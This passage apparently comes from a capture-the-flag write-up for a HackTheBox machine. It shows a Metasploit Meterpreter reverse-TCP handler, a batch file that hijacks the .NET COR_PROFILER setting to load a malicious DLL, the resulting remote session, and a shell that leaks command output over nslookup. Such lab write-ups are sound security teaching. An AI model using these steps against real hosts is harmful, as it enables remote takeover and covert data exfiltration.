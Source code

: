 
### Beryllium

I can do the same thing with the `Beryllium.dll`. I’ll prep Metasploit on my Kali host:

```

root@kali# msfdb run
...[snip]...
msf5 > handler -H eth0 -P 136 -p windows/x64/meterpreter/reverse_tcp
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 10.1.1.41:136

```

Now, back in cmd, I’ll run the following bat file:

```

set "COR_ENABLE_PROFILING=1" 
set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}" 
set "COR_PROFILER_PATH=C:\users\0xdf\desktop\Beryllium.dll" 
set "PORT=136"
set "IP=10.1.1.41"
powershell 

```

When I run `cmd /c a.bat`, my terminal disappears. And I get a connection at Metasploit:

```

[*] Meterpreter session 1 opened (10.1.1.41:136 -> 10.1.1.153:54720) at 2019-03-12 21:20:54 -0400
msf5 > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: HACKSIES\0xdf

```

## Ethereal Meterpreter

### Overview

I’ll be using [my Ethereal shell](https://gitlab.com/0xdf/ctfscripts/tree/master/htb-ethereal) (check out the [post on writing it](/2019/03/09/htb-ethereal-shell.html)), so this is just after initial RCE and finding OpenSSL. Rather than get the shell by combining two OpenSSL connections, I’ll use OpenSSL to upload the dll and the bat script, and then run it.

The shell will run commands entered thought a for loop that sends results over `nslookup`. If I enter `quiet` before the command, it will run the command directory through the injection, with no output back.
